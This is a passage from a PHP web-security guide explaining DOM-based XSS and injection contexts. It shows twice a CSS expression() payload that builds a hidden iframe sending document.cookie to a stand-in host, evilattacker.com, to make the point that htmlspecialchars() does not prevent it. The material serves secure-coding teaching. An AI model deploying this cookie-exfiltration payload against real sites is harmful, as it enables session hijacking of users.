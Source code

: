 

DOM-based XSS Attack

DOM-based XSS can be either reflected or stored and the differentiation lies in how the attack is targeted. Most attacks will strike at the immediate markup of a HTML document. However, HTML may also be manipulated by Javascript using the DOM. An injected payload, rendered safely in HTML, might still be capable of interfering with DOM operations in Javascript. There may also be security vulnerabilities in Javascript libraries or their usage which can also be targeted.



Cross-Site Scripting And Injecting Context

An XSS attack is successful when it can inject Context. The term “Context” relates to how browsers interpret the content of a HTML document. Browsers recognise a number of key Contexts including: HTML Body, HTML Attribute, Javascript, URI and CSS.



The goal of an attacker is to take data destined for one of these Contexts and make browser interpret it as another Context. For example, consider the following:

<div style="background:<?php echo $colour ?>;">



In the above, $colour is populated from a database of user preferances which influence the background colour used for a block of text. The value is injected into a CSS Context which is a child of a HTML Attribute Context, i.e. we’re sticking some CSS into a style attribute. It may seem unimportant to get so hooked up on Context but consider this

$colour = "expression(document.write('<iframe src="

  .= "http://evilattacker.com?cookie=' + document.cookie.escape() + "

  .= "' height=0 width=0 />'))";

<div style="background:<?php echo $colour ?>;">





If an attacker can successfully inject that “colour”, they can inject a CSS expression which will execute the contained Javascript under Internet Explorer. In other words, the attacker was able to switch out of the current CSS Context by injecting a new Javascript Context.



Now, I was very careless with the above example because I know some readers will be desperate to get to the point of using escaping. So let’s do that now.

$colour = "expression(document.write('<iframe src="

  .= "http://evilattacker.com?cookie=' + document.cookie.escape() + "

  .= "' height=0 width=0 />'))";

<div style="background:<?php echo htmlspecialchars($colour, ENT_QUOTES, 'UTF-8') ?>;">





If you checked this with Internet Explorer, you’d quickly realise something is seriously wrong. After using htmlspecialchars() to escape $colour, the XSS attack is still working!

